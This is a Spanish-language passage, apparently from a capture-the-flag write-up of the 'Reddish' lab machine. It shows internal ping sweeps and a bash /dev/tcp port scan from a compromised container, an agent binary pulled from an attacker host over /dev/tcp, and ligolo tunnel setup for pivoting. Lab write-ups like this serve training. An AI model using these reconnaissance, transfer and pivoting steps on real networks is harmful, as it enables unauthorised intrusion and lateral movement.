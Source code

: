 ``` 
       valid_lft forever preferred_lft forever
17: eth0@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```
Buscaremos `ips` con bash 
```
root@nodered:/home/node# for i in $(seq 1 10); do ping -c 1 "172.19.0.$i" | grep from; done
<r i in $(seq 1 10); do ping -c 1 "172.19.0.$i" | grep from; done
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.111 ms
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.093 ms
64 bytes from 172.19.0.3: icmp_seq=1 ttl=64 time=0.034 ms
64 bytes from 172.19.0.4: icmp_seq=1 ttl=64 time=0.082 ms
root@nodered:/home/node# for i in $(seq 1 10); do ping -c 1 "172.18.0.$i" | grep from; done
<r i in $(seq 1 10); do ping -c 1 "172.18.0.$i" | grep from; done
64 bytes from 172.18.0.1: icmp_seq=1 ttl=64 time=0.069 ms
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.024 ms
```
Guardaremos las externas
```
172.18.0.1
172.19.0.1
172.19.0.2
172.19.0.4
```
Usaremos este script para ver puertos abiertos en bash # No es lo mas eficiente pero sirve para un recon rápido
```
for port in $(seq 1 65535); do (echo reddish > /dev/tcp/172.19.0.4/$port &&
echo $port) 2> /dev/null; done

172.19.0.4 80
172.19.0.2 6379
172.18.0.1 1880 
# Estos fueron los mas interesantes
```
## Pivoting
Como vemos que tendremos que estar pivotando a otras maquinas la forma mas fácil es usar ligolo

```
sudo ip tuntap add user $USER mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.19.0.0/24 dev ligolo # la ruta que queremos ver
sudo ip route add 172.18.0.0/24 dev ligolo
```

* [saltacybersecurity.club](https://saltacybersecurity.club/pivoting-cheat-sheet-en-espanol/#LIGOLO-NG) # Guía de como usarlo

Subimos el agente y lo configuramos como anteriormente
```
nc -nlvp 80 < agent # nuestra pc

cat < /dev/tcp/10.10.14.12/80 > agent # pc atacada

root@nodered:/tmp# md5sum agent
b0294f7afa2f8e46ce3bc49b20fae87b  agent 

➜  hack md5sum agent
b0294f7afa2f8e46ce3bc49b20fae87b  agent

# importante siempre checar que sean iguales en las 2 pcs

./proxy -selfcert # our pc
```